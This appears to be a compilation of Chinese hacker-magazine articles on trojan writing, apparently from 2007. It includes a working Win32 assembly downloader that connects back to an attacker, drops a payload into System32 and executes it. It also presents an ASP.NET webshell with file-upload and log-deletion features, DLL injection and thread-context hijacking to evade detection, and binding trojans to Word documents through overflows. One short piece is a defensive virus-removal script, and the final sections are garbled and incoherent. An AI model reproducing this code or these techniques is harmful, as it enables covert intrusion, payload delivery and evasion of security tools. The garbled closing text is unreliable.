下面来介绍导入段，这个段的作用是解决进程隐式加载 DLL 中包含函数的问题。首先给出导入段在 Windows 中的结构：

```c
typedef struct _IMAGE_IMPORT_DESCRIPTOR {
    DWORD   OriginalFirstunk;
    DWORD   FirstThunk;
    DWORD   Name;
    DWORD   Hint;
    DWORD   Characteristics;
} IMPORT_DESCRIPTOR;
```

导入段由该结构对象构成的数组，每个结构对象对应一个 DLL，整个表以一个 `Characteristics` 为 0 的 `IMAGE_IMPORT_DESCRIPTOR` 结束。其中 `Name` 字段指向 DLL 名称的偏移地址，而 `OriginalFirstunk` 和 `FirstThunk` 对应一个由 `IMAGE_THUNK_DATA` 组成的数组的偏移地址，每一个 `IMAGE_THUNK_DATA` 对应从 DLL 引入的函数，下面是 `IMAGE_THUNK_DATA` 的结构：

```c
typedef struct _IMAGE_THUNK_DATA32 {
    union {
        DWORD ForwarderString;
        DWORD Function;
    } Ordinal;
    DWORD AddressOfData;
} IMAGE_THUNK_DATA;
```

这个结构定义十分复杂，它与一个 `DWORD` 变量等价，当这个变量最高位为 1 时，表示本函数是以序号引入的，变量低 16 位就是序号的值；为 0 代表本函数是以函数名形式引入的，是一个偏移量，指向一个 `IMPORT_BY_NAME` 结构。`IMPORT_BY_NAME` 结构如下：

```c
typedef struct _IMPORT_BY_NAME {
    WORD Hint;
    BYTE Name[1];
} IMPORT_BY_NAME;
```

其中 `Name[1]` 是一个变长数组，保存的是函数名。看到这里大家也许奇怪，既然 `OriginalFirstunk` 和 `FirstThunk` 有相同的内容，为什么还要重复呢？因为在 DLL 被加载之后，`OriginalFirstunk` 的内容不会变，而 `FirstThunk` 的内容就会变成函数在该进程中对应的地址。

## 程序分析

下面进行程序分析，程序分成以下步骤：

1. 将 DLL 文件映射到内存中；
2. 获得需要插入的进程 ID，并在进程中分配空间；
3. 根据重定位表更改目标 DLL 中的函数地址；


- 4. 将更改后的DLL映像拷贝到目标进程的空间；
- 5. 准备远程线程所需的参数；
- 6. 根据导出表获得远程线程入口地址；
- 7. 开启远程线程；
- 8. 根据导入表内容，获得远程线程所需的系统API地址。

映射DLL&寻找进程对应着步骤一和步骤二，这两个过程相对简单，只需要`OpenProcess`、`VirtualAlloc`等几个Windows简单的系统调用即可，不再赘述。

## 更改函数地址

该过程比较复杂，需参考前面介绍的重定位表的相关知识，结合代码分析如下：

```
void InjectTool::ReLoadImage(PBYTE pImage, PBYTE pRelocTbl, DWORD dwRelocOffset)
{
    DWORD dwRva = 0, dwRvaCount = 0;
    WORD* arrOffset = NULL;
    PIMAGE_BASE_RELOCATION pImageBaseRelocation = (PIMAGE_BASE_RELOCATION)pRelocTbl;
    // 定位到重定位表
    while(pImageBaseRelocation->VirtualAddress != NULL) // 遍历每一个表项
    {
        arrOffset = (WORD*)(pRelocTbl + sizeof(IMAGE_BASE_RELOCATION));
        dwRvaCount = (pImageBaseRelocation->SizeOfBlock - sizeof(IMAGE_BASE_RELOCATION)) / 2; // 获得该表项中数据项的个数
        for(DWORD i=0; i<dwRvaCount; i++)
        {
            dwRva = arrOffset[i];
            if((dwRva & 0xf000) == 0x3000) // 判断数据项的有效性
            {
                dwRva &= 0x0fff;
                dwRva += pImageBaseRelocation->VirtualAddress + (DWORD)pImage; // 定位需要更改数据的地址
                *(DWORD*)dwRva += dwRelocOffset; // 更改数据
            }
        }
        pRelocTbl += pImageBaseRelocation->SizeOfBlock; // 定位到下一个表项
        pImageBaseRelocation = (PIMAGE_BASE_RELOCATION)pRelocTbl;
    }
}
```

此外说一下这个函数调用的参数`dwRelocOffset = (DWORD)pInjectPos - this->PImageNtHeader->OptionalHeader.ImageBase;`也就是该DLL默认加载地址和程序实际在目标进程分配空间的首地址的差。这个过程就是进程`LoadLibrary`的过程之一。

这里顺便介绍第四和第五步。

## 远程线程

最后谈谈远程线程，我们可以在远程线程中像书写正常代码一样书写任何代码，我在其中尝试了`MessageBox`调用和开启新线程操作，都可以正常调用。

## 小结

文章写到这里可以结束了，使用此法给远程线程编写带来极大的方便，可是它还是存在一些缺陷的，主要是开启远程线程所需的系统函数`CreateRemoteThread`已经被大多数识别并作为判断后门程序的标志，使用该函数开启远程线程就像是在自己脸上写上"我是贼”然后去大街上偷东西一样!所以，要想编写出更加安全的后门程序必须绕开这个API调用。下期，我将给大家介绍几种全新的远程线程开启方式。

适合读者：木马爱好者

前置知识：ASP.NET编程基础

# 用C#编写网页木马

文/华农、wolf4652

像我们这些学黑客的，怎么可能没有自己的个人版Webshell呢?看着海洋某某、冰狐某某是不是心痒呢，今天我就用C#示范一下怎么写自己的Webshell。

## 引言

ASP.NET是目前主流的网页开发语言,ASP.NET网页主要有两种编程模型，一种将HTML代码放入扩展名为`.aspx`的网页中，而将代码放入`.asps.cs`的文件中，这些叫做代码隐藏类。当然也可以像传统的asp一样编写嵌入的代码，两种方法在性能上基本没有差别。而今天我要讲的主要是后者，原因嘛，我们在上传马的时候多个文件上传总是不太方便。

现在开始我们的第一个例子，主要是让大家熟悉一下ASP.net的编程。代码如下，作用就是在网页上输入hello,hacker defense。

```xml
<page language="C#">
<html>
<head>
<script language="C#" runat="server">
Private void Page_Load(object sender,EventArgs e)
{
    Response.Write("hello,hacker defense");
}
</script>
</head>
</html>
```

相信对ASP较为熟悉的一看就懂，这里不多解释。

## 设计

我们今天要设计的木马具有以下几个功能：

1. 取得物理路径
2. 能够查看物理路径里的文件夹及文件
3. 能够查看文件的属性信息
4. 能够修改文件的属性信息
5. 能够上传文件到任意目录
6. 能够具有删除IIS日志功能
7. 有查看源文件的功能。

首先介绍我们今天的主角，`File`类和`Directory`类，这两个类只拥有静态方法。

下面是`File`类的主要静态方法，如表1所示。

下面是`Directory`类的主要静态方法，如表2所示。

| 方法名 | 功能描述 |
| :--- | :--- |
| `GetAttribute` | 获取在此路径上的文件的属性 |
| `OpenText` | 打开现有文本文件以进行读取。 |
| `GetCreationTime` | 返回指定文件或目录的创建日期和时间。 |
| `GetLastAccessTime` | 返回上次访问指定文件日期和时间。 |
| `GetLastWriteTime` | 返回上次写入指定文件或目录的日期和时间 |
| `SetCreationTime` | 设置创建该文件的日期和时间。 |
| `SetLastAccessTime` | 设置上次访问指定文件的日期和时间 |
| `SetLastWriteTime` | 设置上次写入指定文件的日期和时间 |

表1

| 方法名 | 功能描述 |
| :--- | :--- |
| `GetFiles` | 返回指定目录中的文件的名称。 |
| `GetDirectories` | 获取指定目录中子目录的名称 |

表2

```csharp
private void Page_Load(object sender, System.EventArgs e)
{
    if(!this.IsPostBack)
    {
        this.labelPhysicalPath.Text=this.Server.MapPath(".\");
        this.Calendar1.TodaysDate=DateTime.Now;
    }
}
```

我们用`Server`对象的方法`MapPath`来取得当前文件的路径，注意这只是路径，并没有文件名。

```csharp
private void btnDirectory_Click(object sender, System.EventArgs e)
{
    try
    {
        this.ListBox1.DataSource=System.IO.Directory.GetDirectories(this.textBoxPhysicalPath.Text);
        this.ListBox2.DataSource=System.IO.Directory.GetFiles(this.textBoxPhysicalPath.Text);
        this.ListBox1.DataBind();
        this.ListBox2.DataBind();
    }
    catch(Exception ex)
    {
        this.labelErrorMess.Text=ex.ToString();
    }
}
```

再就是修改文件属性，这里我加了一个`Calendar`空间，便于取得要修改的日期，代码如下：

```csharp
private void btnChangeAttr_Click(object sender, System.EventArgs e)
{
    try
    {
        int index=this.RadioButtonList1.SelectedIndex;
        switch(index)
        {
            case 0:
                System.IO.File.SetCreationTime(this.textBoxFileName.Text,
                this.Calendar1.SelectedDate);
                break;
            case 1:
                System.IO.File.SetLastAccessTime(this.
                textBoxFileName.Text,this.Calendar1.SelectedDate);
                break;
            case 2:
                System.IO.File.SetLastWriteTime(this.textBoxFileName.
                Text,this.Calendar1.SelectedDate);
                break;
            default:
                break;
        }
    }
    catch(Exception ex)
    {
        this.labelErrorMess.Text=ex.ToString();
    }
}
```



运行结果如图1所示。

其它功能就不一一演示了，感兴趣的朋友可以直接查看源代码。值得一提的是IIS的日志默认是保存在“`X:\WINDOWS\system32\LogFiles\W3SVC1`”文件夹下，而且保存格式为“`yyymmdd.log`”，如“`yy051230.log`”。

我们编写的嵌入代码页可以很好的IIS中运行，但是VS.net中却对这种编程模型的支持有限(它只支持代码后置)，但我们完全可以发挥主观能性将其改之为自己所用，那就是先用VS.net生成代码，然后再将代码后置文件中的代码粘贴到`<script></script>`中去就行了。

文章到此结束，相信大家看完本文后触类旁通能写出更好的木马。

Socket: 在病毒日益猖獗的网络时代，杀毒软件自然成了我们的常备安全工具。当新病毒出现时，你的选择是苦苦等待新的杀毒软件赶快出现，还是马上动手做一个属于自己的专杀工具呢?不愿等待的就跟我来吧……

适合读者：VBS脚本爱好者

前置知识：VBS代码基础知识、注册表基础知识

# 用VBS打造Kangen病毒专杀工具

文/图 晕 寒

最近，Kangen病毒在我们学校里流传得很是猖獗，它通过U盘和MP3感染了许多无辜同学的电脑，并且目前还没有一种杀毒软件可以很好的直接清除它。许多同学无奈选择了重装系统。但重装系统固然不管，我们何不借此机会打造一个自己的专杀工具呢?

首先了解感染病毒后的症状：

1. 任务管理器和注册表被锁定。
2. 在`Windows/system32/`下生成`Winword.exe`和`Winlog.dat`两个隐藏的系统文件，并在每个盘根目录下生成名为`kangen.exe`，图标为Word文件，打开后自动执行。
3. 开始菜单的“开始”变成了滚动的。
4. 解锁任务管理器后，发现进程里没有Word文件被使用时，出现`Winword.exe`进程。
5. 解锁注册编辑器后，发注册表“`HKEY_LOCAL_MACHINE\SOFTWARE\Windows\CurrentVersion\Run`”下生成`"OSA = "%System%\winword.exe"` 和 `"LoadService"`两个键值。

有了症状我们现在来恢复注册编辑器和任务管理器，主要思路是修改注册表项中的键值，代码如下（由于源代码中有详细注释，这里就只出关键代码，程序在XP下编译）：

```vb
Set wso = WScript.CreateObject("WScript.Shell")
wso.RegWrite "HKEY_CURRENT_USER\Software\Windows\CurrentVersion\Policies\System\DisableTools",0,"REG_DWORD"
wso.RegWrite "HKEY_CURRENT_USER\Software\Windows\CurrentVersion\Policies\System\TaskMgr",0,"REG_DWORD"
```

《黑客防线》2007精华 奉献

**PROGRAMMING ANALYSE**

栏目编辑：socket@hacker.com.cn

关掉`Winword.exe`进程的准备：

```vb
StrSQL = "SELECT * FROM Win32_Process"
Set oWMI = GetObject("\\root\cimv2")
Set oProcs = oWMI.ExecQuery(strSQL)
For Each oProc In oProcs
    If oProc.Name="winword.exe" then
        oProc.Terminate
    End If
Next
```

接着去除`Winword.exe`和`Winlog.dat`的隐藏属性并将其删除。代码如下：

```vb
Set fso = CreateObject("Scripting.FileSystemObject")
Set f = fso.GetFile(filepath)
f.Delete
```

最后删除每个盘根目录下的`Kangen.exe`文件。思路是：列出可用的盘和盘上的文件，如果文件名为`Kangen.exe`则删除。代码如下：

```vb
Set fso=CreateObject("Scripting.FileSystemObject")
For each drv in fso.Drives
    If drv.IsReady then
        Set f = fso.GetFolder(drv)
        For Each f2 in f.Files
            Aryreturn=Split(f2.Name,"\")
            res2=Aryreturn(ubound(Aryreturn))
            If res2="kangen.exe" then
                fso.DeleteFile f2.Path
            End If
        Next
    End If
Next
```

好了，到这里只需要对上面的代码及思路进行整理便可以写出自己的杀毒软件了。

适合读者：编程爱好者、木马爱好者

前置知识：Win32汇基础知识


文/图 曹军/dangai

现在很多单位都采用单独的计算机来存放重要的涉密文件。然而如果涉密文件被盗，不仅会带来严重的经济损失，窃密者还可能逍遥法外。为了解决这个问题，我们需要对涉密文件采取某些措施，如绑定木马，在窃密者得手后木马能自动执行，并记录下窃密者的相关信息，最后及时监控端。上面所采取的措施，我们称为网络跟踪技术。本文所要讲述的汇编木马，就经常应用在跟踪技术中。

举个例子：在一涉密`doc`文件中绑定一个`.exe`木马。如果木马功能复杂，并且是在VC等编译环境下生成，那它的体积至少有几十K，再加上`doc`文件自身的数据量就非常可观了。一个大的`doc`文件会引起窃密者的怀疑，我们的跟踪也就达不到效果。因此，我们必须要设法在不影响最终目的的前提下，尽量减小木马文件的体积。办法不止一个，而我采用的是编写汇编木马的方式。当然，研究的平台都是在Windows 2000以上的操作系统中。

# Win32 汇编木马设计思路

完整的汇编木马又称为“小马”，原因有两个：一是它体积小，只有几K；二是它的功能仅仅是反向连接攻击端，从攻击端下载并执行复杂的功能。为了便于理解，本文将关心“大马”的功能实现，重点是汇编木马的设计。汇编木马的设计围绕四个重要的指标：体积小、防杀、突破防火墙与进程隐藏、拖动并执行。下面逐一介绍：

1. 体积小：常规木马大多用高级语言编写，在集成环境下生成虽然实现方便，但是生成的`exe`文件较大。对于汇编木马，我们采用Win32汇来实现，使得`exe`文件控制在几K。

2. 防杀：为了避免诺顿、卡巴基等主流杀毒软件识别，木马文件一定要可靠。根据经验，选用最新的ASProtect加壳。

3. 突破防火墙与进程隐藏：木马文件执行需要与攻击端通信，但现在XP SP2自带了防火墙。当应用程序访问网络时，防火墙会报警。解决方法是：将通信部分作为远程线程注入到防火墙进程中，起到了隐藏的作用。

4. 拖动并执行：这是汇编木马的核心，监控、跟踪功能是在大马中，可以通过高级语言来实现，大小并没有限制。

## Win32汇编基础

为了进行下面的讨论，Win32汇编是大家掌握的基础知识。通过下面几个方面了解：

1. Win32编译器：常用的Borland公司的`Tasm5.0`和Microsoft的`Masm`及以上版本，两种编译器各有缺点。


**2. 环境设置：** 为了直接调用 `Masm` 工具和库文件，我在环境变量里分别设置：

```
Include=F:\防研究\攻击机研究\汇编\masm2006
lib=F:\防研究\攻击机研究\汇编
path=F:\防研究\攻击机研究\汇编\bin
```

**3. 编译和连接：** 汇编文件的编译 `Ml /c /coff 文件名.asm`，生成 `obj` 文件；资源文件的编译 `Rc`，生成 `res` 文件；连接 `Link /SUBSYSTEM:WINDOWS 文件名.obj 文件名.res`。

**4. Include 和 Includelib 语句：** `Include` 语句包含了一些定义和 API 说明，其中所有的 Windows 数据结构和常量定义在 `windows.inc` 中，而很多函数的说明在其它 `inc` 中。例如 `ExitProcess` 函数在 `Kernel32.dll` 中，就要在程序中包括 `kernel32.inc` 和 `Includelib kernel32.lib` 语句，否则编译时会出现 API 函数未定义错误。

**5. 数据段、代码段和注释：** 未初始化的定义在 `data?` 段中，已初始化的定义在 `data` 段中，而代码位于 `code` 段。此外，汇编注释由 `;` 来指引。

**6. 命令行参数的提取：** 如果生成的 `exe` 文件是带参数的，我们可以通过 API 函数 `GetCommandLine` 获取。下面用一个简单的例子对上面的基础走一遍，大家就更清楚了：

```
.386 声明在 386 平台下
.model flat, stdcall 平坦模式，函数调用约定为 stdcall
option casemap:none
Include windows.inc
Include kernel32.inc
Include user32.inc
Includelib kernel32.lib
Includelib user32.lib
.data 放初始化数据
szCaption db '命令行测试',0
.code 代码段
start: 代码的开始
invoke GetCommandLine ; 函数调用语句，取代 call 指令，省去 push 操作
invoke MessageBox,NULL,eax,addr szCaption,MB_OK
invoke ExitProcess,NULL
end start
```

文件存为 `test.asm`。在命令行下编译、连接，如图 1 所示：

```
E:\>cd WINDOWS\system32\cmd.exe
E:\>cd 攻防研究\攻击机研究\汇编\masm2006\Win32汇编木马初步\code\test\
E:\攻防研究\攻击机研究\汇编\masm2006\Win32汇编木马初步\code\test>ml /c /coff test.asm
Microsoft (R) Macro Assembler Version 6.14.8444
Copyright (C) Microsoft Corp 1981-1997. All rights reserved.

Assembling: test.asm
E:\攻防研究\攻击机研究\汇编\masm2006\Win32汇编木马初步\code\test>link /subsystem:windows test.obj
Microsoft (R) Incremental Linker Version 5.12.8078
Copyright (C) Microsoft Corp 1992-1998. All rights reserved.

E:\攻防研究\攻击机研究\汇编\masm2006\Win32汇编木马初步\code\test>
```

图 1：输入 Exe 文件名 + 参数，如图 2 所示。


图 2：如果要学习更多的汇编知识，可以参见罗云彬等编写的《Windows 环境下 32 位汇编语言程序设计》，在网上也能下载到电子教程。

## PROGRAMMING ANALYSE

栏目编辑：socket@hacker.com.cn

```
; 定义初始化数据，就像高级语言中定义变量一样

data?

hInstance dd ?

sysdir db 128 dup(?)

mainSock dd ?

wsainfo WSADATA<>

mainSin sockaddr_in<>

clientinfo sockaddr_in<>

; dwRever_lp DWORD ?;可通过命令行参数指定，本文在本机演示忽略

recvbuff2 dd ?

recvbuff db 1024 dup(?)

sendbuff db 1024 dup(?)

location db 256 dup(?)

bytesdone dd ?

buffwrite db 256 dup(?)

uplfile dd ?; 文件句柄

; 已初始化的数据

data

szFileName db 'dg.exe',0

dirfmt db '%s\%s', 0

mainport db '80', 0

szOK db 'ok!', 0

.code

start:

;初始化winsock

invoke WSAStartup, 101h, addr wsainfo

cmp eax, 0

;PrintError

jnz endl

; 创建套接字

invoke socket, AF_INET, SOCK_STREAM, IPPROTO_TCP

cmp eax, INVALID_SOCKET ;PrintError

jz endl;出错就结束

mov mainSock, eax

mov mainSin.sin_family, AF_INET

;反连端口,80、110、255均可以

mov eax, 80

push eax

call htons

mov mainSin.sin_port, ax

;mov eax, dwRever_lp ;攻击端IP,可根据需要自己改写,也可通过其它方式传递

mov eax, 100007fh;这里使用127.0.0.1

mov mainSin.sin_addr, eax

;反连攻击端

invoke connect, mainSock, addr mainSin, sizeof mainSin

;PrintError

cmp eax, SOCKET_ERROR

jz endloop

; 下面接收“大马”

; 先接收攻击端发送的“大马”文件大小

invoke RtlZeroMemory, addr recvbuff2,sizeof recvbuff2

invoke recv, mainSock, addr recvbuff2, sizeof recvbuff2, 0

cmp eax, SOCKET_ERROR

jz endloop

cmp eax,0

jz endloop

; 返回确认信息

invoke send, mainSock, addr szOK,sizeof szOK, 0

; 接收文件，并放在系统目录下

upload:

; 获取系统目录

invoke GetSystemDirectory, addr sysdir, sizeof sysdir

;构造路径sprintf(location, "%s\%s" , sysdir, szFileName)

invoke wsprintf, addr location, addr dirfmt, addr sysdir, addr szFileName

; 创建文件

invoke CreateFile, addr location, GENERIC_WRITE, FILE_SHARE_READ or\

FILE_SHARE_WRITE, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL

; 文件句柄

mov uplfile, eax

; 已接收字节数

mov bytesdone, 0

; 循环接收

uploadloop:

invoke RtlZeroMemory, addr recvbuff, sizeof recvbuff

invoke recv, mainSock, addr recvbuff, sizeof recvbuff, 0

cmp eax, SOCKET_ERROR

jz updone

cmp eax, 0

jz updone

mov edx, eax

add bytesdone, eax

; 向文件中写内容

invoke WriteFile, uplfile, addr recvbuff, edx, addr buffwrite,NULL

invoke send, mainSock, addr szOK, sizeof szOK, 0

mov edx, recvbuff2

cmp bytesdone, edx

jnae uploadloop

updone:

invoke CloseHandle, uplfile

; "大马"命令行参数可根据需要指定

invoke ShellExecute, NULL, NULL, addr location, NULL, NULL, SW_SHOWNORMAL

endloop:

invoke closesocket, mainSock

endl:

end start
```

按照前面的方法编译、生成可执行程序 `down_exec.exe`，这就是简单的汇编木马。大家可以看到，`down_exec.exe` 体积仅 2.5k。攻击端的实现很简单，就是监听 80（110、25 等具有隐蔽性的端口都可以）端口，等待汇编木马执行后连接过来，然后传送并执行“大马”。具体代码参见光盘中的 `Server.cpp`，此处不再赘述。至于“大马”，我这里用了一个简单的 `dg.exe`，作用是在 D 盘根目录下生成 `1.txt`，里面有一串字符便于检验。

下面我们进行测试。先生成攻击端 `Server.exe`、`dg.exe` 放在 `tools` 目录中，将 `tools` 目录、`Server.exe` 和汇编木马 `down_exec.exe` 一同放到“演示工具目录”中，如图 3 所示。

双击 `Server.exe` 和 `down_exec.exe`。



大家可以检查 D 盘下是否生成了 `1.txt`，同时看看系统的 `System32` 目录下是否有一个 `dg.exe`。

# 木马文件绑定技术

最后，我们来讨论一下木马文件的绑定。我们的汇编木马不仅可以绑定在 `.doc`、`.pdf` 等文件中起到保护作用，还可以绑定在 `.png`、`.jpg`、`.wmf` 等图片文件中制作成网页木马。文件绑定是比较容易实现的，但是要在母体文件打开时自动生成并执行木马文件却有很多限制，相信做过这方面工作的朋友都会有所体会。

绑定文件的方法视文件母体的不同而不同，这里以在 `.doc` 文件中绑定 `.exe` 文件为例。向 `.doc` 文件中绑定 `.exe` 文件后，要在打开该 `.doc` 文件的时候自动生成并执行该 `.exe` 文件，方法大致有两个。

- **1. 利用 Word 提供的宏**

  例如：要将 `1.exe` 绑定到 `2.doc` 中，通过命令 `copy /b 2.doc` 即可实现。要从 `2.doc` 中提取出 `1.exe`，必须用宏机制来实现。这种实现方式容易受到宏机制安全的限制，详细介绍可以参考《Word 溢出分析》。

- **2. 利用 Word 溢出漏洞**

  这种方式虽然复杂，但效果好于第一种。利用 Word 溢出漏洞，我就可以构造特定文件，当打开该文件时由于 Word 缓冲区溢出而执行任意代码。具体思路如下。我们的特定 doc 文件为 `abc.doc`，物理上由以下部分构成，如图 4 所示。

  - 溢出模板
  - 真实的 doc
  - Exe 文件

  开头部分是溢出模板，它导致 Word 发生溢出。溢出之后执行其中的 `ShellCode`，判断是否合法用户（通过信息判断），如果是合法则提取并生成真实的 doc，再调用 Word 文件而直接执行第三部分。对于本文而言，这里的 Exe 文件就是我们的汇编木马。

## 小结

在本文中我们讨论了汇编木马的应用、整体设计思路以及部分实现，简单介绍了木马绑定技术，希望能对大家有所帮助。其实木马技术深浅，关键还是一步一步掌握好基础，只有基础扎实了，才能打造自己的木马。适合读者：程序设计者，木马爱好者。

前置知识：`C++` 基础、编程经验。

# 让你的木马藏得深——线程注射技术发展

## 简介

上期说到，`CreateRemoteThread` 已经被 IDS 识别为木马特征之一，所以我们在自己的木马中使用开启远程线程后不能保证自身的安全。就好像自己写的一样。在这里为大家介绍一种新的远程线程开启方法，它可以绕过很多 IDS。此外这次使用的 API 比 `CreateRemoteThread` 具有更好的兼容性，能够保证木马在 Windows 下正常运行。下面我们来熟悉背景。

方法需要如下：

- **1. `CreateProcess`**

  能创建一个进程。真的可能完全清楚它的意图是不可能的，通过不同的参数，API 可以创建后输出它的设置值。设计参数对于安全性考虑是非常重要的，我们只要愿意留心跟踪进程和线程的内部，就可以追踪每一个进程句柄。

- **2. `GetThreadContext`**

  需要获取一个特定的句柄，句柄包含一个进程的线程句柄，`GetThreadContext` 将会线程的上下文环境带回来。在执行中，你可以设置指定的 `CONTEXT` 中的 `Flags`，就可以指定要操作的参数。调用函数可以使用 `CONTEXT_INT` 访问指定的 `SEGMENTS`，将所有寄存器赋值给指定的线程。

- **3. `SetThreadContext`**

  需要句柄和指定的线程环境对应，需要两个参数针对同一个句柄使用，否则会导致线程更新失败，无法返回。`ThreadRead` 就是获取线程的执行返回值。

```
if((lpPos = (LPVOID)AllocEx(hProcess, NULL,
ThreadTool.ProcessNameHeader->SizeOfImage,
MEM_COMMIT|PAGE_EXECUTE_READWRITE, 0)) == NULL)
```

```
TheTool.ErrorOut("Alloc: Error Out:");
leave;
```

```
TheTool.ConstructData(pimage,projectContext,
(PVOID)&Entry,(PVOID)&param);
```

```
if(!WriteProcessMemory(hProcess,pPos,pimage,
ThreadTool.ProcessNameHeader->SizeOfImage,NULL))
```

```
TheTool.ErrorOut("Target Memory Error:");
leave;
```

以上操作向目标进程写入了线程代码。

```
context.Context=FULL;
if(!GetThreadContext(hThread,&cntxt))
```

```
TheTool.ErrorOut("Get Thread Error Out:");
leave;
```

以上操作获取主线程的上下文环境。

```
DWORD size=sizeof(CONTEXT);
```

这里是为了修改线程的执行地址。通过一个句柄指向了运行的线程，然后我们发现需要使用这个函数来修改该线程的执行地址。在这里，我把地址设置为 `pEntry`，就是我们在写入进程的线程入口地址了。

## 背景知识

## 函数原理

写一个最简单的函数，并且在我们的程序中调用，如下：

```
DWORD WINAPI TryThreadFun(LPVOID lpParam )
{
    MessageBox(NULL,"Success!","haha",MB_OK);
    return 0;
}

int _tmain(int argc, _TCHAR* argv[])
{
    TryThreadFun(NULL);
    getch();
    return 0;
}
```

我们在函数设置处设置断点，然后进入汇编代码中，如下所示：

```
00411B5E  push        0
00411B60  call        TryThreadFun (4110B6h)
```

在这里，`PUSH 0` 就是针对函数的参数的操作。在函数被调用之前，首先要把参数压入栈顶；以后我们再需要调用参数时，就可以从栈顶获得。

## JavaScript

JavaScript 中用定时器：

```javascript
setInterval(function() {
  alert('hello');
}, 2000);
```

这两个参数，一个是函数，一个是时间（单位是秒）作为回调函数。`setInterval` 会自动重复，而 `setTimeout` 只执行一次。

# PROGRAMMING ANALYSIS

## 服务器和连接

服务器根据页面的脚本把数据的存储放在数据库中，然后进行操作。

执行操作。如果你的游戏加减了，服务器就执行加减操作。你的血减一次，HP 加一次，值在要求的，这里就会从不同的玩家的游戏到一定串来处理，形成不同的玩家的例子。例如：

- 服务器和连接
- HTML、JavaScript
- MySQL 代码
- HP 减一次
- HP 加一次
- 获取玩家数据
- 更新玩家数据
- 连接数据库
- 添加表单
- 注册用户
- 提交表单

图 3


## 修改 form.html 的链接

修改以下几处：

1. 把 `<body>` 改为 `<body onload="form1.submit();">`。这样当玩家点击按钮后，先执行 `form1.submit`。由于这个动作的作用是提交 form 表单，这里的 form 是直接跳转的，不是 form 链接。


2. 修改 form：`name="form1" action="post" method="post"`。如果没有 action 属性就不会跳转。这里用 action 属性设置的相对路径，这里为了方便使用 `http://www.gamedor.com/post.php`。现在在玩家页面上，我们应该添加跳转代码，这里为了跳转：`action="post.php"`。

3. 修改跳转处，通过这段代码，在这里要写一段 JavaScript 玩家的跳转代码：

```html
<textarea name="count" rows="8"></
//玩家的跳转代码
```

我们在这里设置跳转的目标地址，玩家跳转到这里具体，使用 HTML 标签相关的代码：

```javascript
location.href="form2.html";
```

修改 `form2.html`，我们需要保存数据，现在已经可以自动跳转了，提交后页面会自动跳转到下一个页面，我们需要设置一个定时器，不跳转到当前页面，新建一个文本，输入如下：

```html
<script lang="JavaScript">
var winCount;
function() {
    window.location.href="form3.html";
} // 使用定时器跳转
setInterval(function, 2500);
function() {
    // 页面跳转代码
    window.location.href="form3.html";
}
</script>
</body>
```

玩家点击后，点击三次，找不到按钮；五次后，一次减血，以此作为思路，而不是真实的页面就是为了解决问题，因为页面可能不会打开这个页面，我用 `setTimeout` 这个时间可能不能所有客户端和服务器连接。

## 首先选择一类链接

- 链接：`<a href="http://www.gamedor.com/petknipf.php?action=user" index="petknip">`

- 寻找按钮：`http://www.gamedor.com/petshop.php`

- 使用链接：`http://www.gamedor.com/petinfo.php`

此处还有这种方法，JS 的链接：将不再跳转页面，我可以使用JavaScript来实现跳转：接下来开始编写代码，也是新建一个文件，为了基础结构：

```html
<html
<script lang="JavaScript">
</script>
<body>
</body>
</html>
```

在 `<script>` 和 `</script>` 之间编写你的代码：

```javascript
var playerCount=new String("http://www.gamedor.com/petshop.php?index=petknip"); // 减血
var varAttack=new String("http://www.gamedor.com/petknip.php?action=attack"); // 加血
var userVar=new String("http://www.gamedor.com/petinfo.php?action=user"); // HP
```

定义一个函数，用来处理每一个链接：

```javascript
function execute(address) {
    petWindow.location=address;
    // 这里写跳转的链接
}
```

代码字符串这里设置25秒跳转一次，这样可以为了防止页面刷新，以免玩家担心的。这每次一次一次，但是要注意玩家自己的承受能力。好了，在当前`form.html`，开始自动跳转。

## 网络数据库的结构

它的原理就是从玩家的各个个游戏服务器和连接。

这里是函数参数`i`;每次用`i`计数数据，如果能被2触发；表示该血细胞被4触发，就表示触发该函数；否则：

```javascript
function ctrl(ctri) {
  if(i%2==0) {
    execute(usehp);
    i++;
  } else {
    if(i%4==0) {
      execute(findNPC);
      execute(attack);
      i++;
    }
  }
